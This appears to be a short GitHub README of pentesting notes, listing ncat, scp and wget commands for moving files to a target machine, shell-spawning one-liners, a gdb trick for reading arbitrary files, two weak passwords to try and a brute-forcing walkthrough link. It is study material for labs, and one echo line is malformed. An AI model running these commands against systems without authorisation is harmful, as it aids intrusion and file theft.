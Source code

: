 # HackNotes 【第一】🐱‍💻

## Introduction to Cyber Security

Cybersecurity is the body of technologies, processes and practices designed to protect networks, computers, programs and data from attack, damage or unauthorized access

## Basics

### nmap-ncat
##### Listen to Inbound Connections
`ncat -l [PORT]`
##### Connect to Remote System
`ncat [IP] [PORT]`
##### Copy Files Using ncat
Receiver: `ncat -l [PORT] > file.ext`
Sender: `ncat [IP] [PORT] --send-only < file.ext`

### SCP (Secure Copy)
##### Basic Syntax
`scp [SOURCE_FILE_PATH] [DESTINATION_FILE_PATH]`
##### Sending File From Remote Host to Local Host
`scp [user]@[IP]:/[PATH]/[PATH]/file.ext outputfile.ext`

### wget
##### Prepate the HTTP Server
`python-m http.server [PORT]`
##### On the Target Machine
`wget [IP/URL]:[PORT] -O filename.ext`

### Spawning 🐚
##### python
`python -c 'import pty; pty.spawn("/bin/sh")'`
##### echo
`echo 'os.system('/bin/bash')'`
##### bash
`/bin/bash -i`
##### sh
`/bin/sh -i`

### Useful Trickeries
##### gdb file read 
`gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit`

### Bad Passwords worth to try
- qazwsxedc
- p4ssw0rd

## Learn From Walkthroughs
- https://www.hackingarticles.in/seppuku1-vulnhub-walkthrough/ (brute forcing basic authentication)
